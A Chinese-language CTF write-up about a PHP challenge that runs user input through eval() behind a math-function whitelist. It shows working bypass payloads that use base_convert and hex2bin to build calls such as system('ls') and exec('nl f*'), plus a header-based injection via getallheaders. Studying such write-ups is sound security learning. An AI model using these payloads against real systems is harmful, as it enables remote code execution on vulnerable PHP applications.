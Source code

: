 ```php
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

<https://www.php.net/manual/zh/ref.math.php>

目标就是构造一个80字符以下的payload读到flag

```
# system('ls')
base_convert(1751504350,10,36)(base_convert(784,10,36))

# phpinfo()
base_convert(55490343972,10,36)()
```

问题来了,只能转换出字母和数字,特殊符号没办法.(我就卡在这里)

实际上绕道而行,通过其他params引入即可.比如url后面跟个变量,还有ROIS大佬的`system(getallheaders(){9})`,通过header引入.

最最最优雅的解法来自我在群内看到的某个群友,忘记名字了,只保存了payload:

`base_convert(47138,20,36)(base_convert(3761671484,13,36)(dechex(474260465194)))`

79个字符,`exec(hex2bin(6e6c20662a))`

`6e6c20662a`内容是`nl f*`

太秀了,允许我膜一下!!!

最后一题web没看懂,了解了大致思路,想复现环境没了.找机会再补上